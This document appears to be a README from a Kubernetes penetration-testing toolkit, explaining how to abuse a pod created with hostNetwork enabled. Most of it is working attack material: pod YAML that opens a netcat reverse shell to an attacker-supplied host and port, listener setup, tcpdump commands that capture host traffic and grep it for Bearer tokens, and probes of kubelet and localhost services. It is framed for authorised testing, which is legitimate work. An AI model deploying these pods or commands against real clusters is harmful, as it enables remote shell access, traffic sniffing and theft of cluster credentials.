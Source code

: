 ## You can create a pod with only hostNetwork

If you only have `hostNetwork=true`, you can't get RCE on the host directly, but if your cross your fingers you might still find a path to cluster admin. 
The important things here are: 
* You can sniff traffic on any of the host's network interfaces, and maybe find some kubernetes tokens or application specific passwords, keys, etc. to other services in the cluster.  
* You can communicate with network services on the host that are only listening on localhost/loopback. Services you would not be able to touch without `hostNetowrk=true`

# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostnetwork
  labels:
    app: pentest
spec:
  hostNetwork: true
  containers:
  - image: ubuntu
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
    name: hostnetwork
  # Force scheduling of your pod on master mode by uncommenting this line and changing the name
  #nodeName: k8s-master
  ```
[pod-hostnetwork-only.yaml](pod-hostnetwork-only.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-hostnetwork-only.yaml   
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/hostnetwork-only/pod-hostnetwork-only.yaml  
```

### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-hostnetwork-only -- bash
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostnetwork-revshell
  labels:
    app: pentest
spec:
  hostNetwork: true
  containers:
  - image: busybox
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
    name: hostnetwork-revshell
  # Force scheduling of your pod on master mode by uncommenting this line and changing the name
  #nodeName: k8s-master
```
[pod-hostnetwork-only-revshell.yaml](pod-hostnetwork-only-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" 
envsubst < ./yaml/hostnetwork-only/pod-hostnetwork-only-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

# Post Exploitation 

#### Install tcpdump and sniff traffic 
**Note:** If you can't install tools to your pod (no internet access), you will have to change the image in your pod yaml to something that already includes `tcpdump`, like https://hub.docker.com/r/corfr/tcpdump

```bash
apt update && apt install tcpdump 
```
You now have a few options for next steps: 

See if the `kubelet` read-only port (10255/tcp) is open on any of the node's IPs
```bash
nc -zv 10.0.0.162 10255
Connection to 10.0.0.162 10255 port [tcp/*] succeeded!
nc -zv 172.17.0.1 10255
Connection to 172.17.0.1 10255 port [tcp/*] succeeded!
```

If the read-only port is open, run `tcpdump`, recording the output to a file for a few minutes.

**Warning:** Sniffing on an interface with a lot of traffic can cause the interface to DROP traffic, which is not what you want in an production environment. I suggest picking one port at a time for your packet captures (e.g., 10255, 80, 8080, 3000 25, 23)
**Warning:** Always run `tcpdump` with the `-n` flag. This turns off name resolution, and if you don't, the name resolution will bring the capture, and potentially the host, to its knees. 

```bash
tcpdump -ni [host or docker interface name] -s0 -w kubelet-ro.cap port 10255
```
Stop the capture and read the file with `tcpdump`.  Tip: Use the `-A` flag to only show the printable characters and hunt for things like tokens with `grep`. 

```bash
tcpdump -ro kubelet-ro.cap -s0 -A
tcpdump -ro kubelet-ro.cap -s0 -A | grep Bearer
```

Cross your fingers and look for secrets.  If you are lucky, you might even get a jwt token. If you are really lucky, that token might be associated with a service account in `kube-system`.


# Another path: Investigate local services
```bash
curl https://localhost:1234/metrics
```

#### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.
